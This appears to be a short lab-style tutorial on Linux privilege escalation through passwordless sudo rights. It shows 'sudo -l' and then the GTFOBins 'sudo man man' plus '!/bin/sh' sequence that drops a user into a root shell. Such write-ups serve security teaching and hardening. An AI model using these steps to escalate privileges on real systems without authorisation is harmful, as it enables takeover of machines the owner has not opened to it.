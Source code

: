 # Misconfigured SUDO Privileges

Sometimes, users are allowed to run certain commands with `sudo` **without a password**, which can be abused to gain **root access**.

### 🔍 Step 1: Check Your Sudo Permissions

Use this command to see what you're allowed to run as `sudo`:

```bash
sudo -l
```

**Explanation**:

- Lists commands you can run with `sudo`
- Shows whether a password is required or not

> 🎯 You're looking for any binary listed that can be abused to escalate privileges.
> 

### Output:
<img width="897" height="182" alt="image" src="https://github.com/user-attachments/assets/f6040471-21cf-471b-9115-69ef159fafa6" />

 
This means the user (e.g., `student`) can run the `man` command **as root without a password**.

### 🧰 Step 2: Look Up the Binary on GTFOBins

Check https://gtfobins.github.io for the binary.

Search: **"man"**

According to GTFOBins, `man` can be used to get a shell like this:

 <img width="886" height="225" alt="image" src="https://github.com/user-attachments/assets/6d9949d7-dd79-4a22-99a1-9a7bcb73d9f1" />

Checking it further

<img width="871" height="183" alt="image" src="https://github.com/user-attachments/assets/ce33f650-e6d9-4bc6-a166-055df6264d25" />

Now we are going to follow the same instruction 

```bash
sudo man man
```

After that we will run the command 

```bash
!/bin/sh
```

After this you drop into a **root shell**

Similiary you can check if there is another binary are allowed to run with **SUDO** permission without password
